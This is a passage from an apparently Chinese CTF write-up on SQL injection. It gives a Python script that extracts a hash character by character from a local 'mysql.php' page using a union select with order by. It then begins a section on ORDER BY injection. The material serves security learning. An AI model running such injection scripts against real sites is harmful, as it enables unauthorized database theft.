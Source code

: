 ![](images/ctf-2021-06-18-20-00-34.png)

现在我们知道，前两个字符为79了 //9的ascii为57而:的ascii为58，所以:比9大

以此我们可以写出以下脚本

```python
import requests

url= 'http://127.0.0.1/mysql.php'
flag=''
for i in range(50):
    for j in range(48,128):
        payload="?username=xxx' or 1=1 union select 1,2,'%s' order by 3 limit 1,2;\x00"%(flag+chr(j))
        r=requests.get(url+payload).text
        print j
        if 'admin' in r:
            flag+=chr(j-1)
            print flag.lower() #793914c9c583d9d86d0f4ed8c521b0c1
            break
```

##### order by,desc,asc注入

正常的order语句，因为查询两列，所以order by 1,3报错

![](images/ctf-2021-06-18-20-02-04.png)
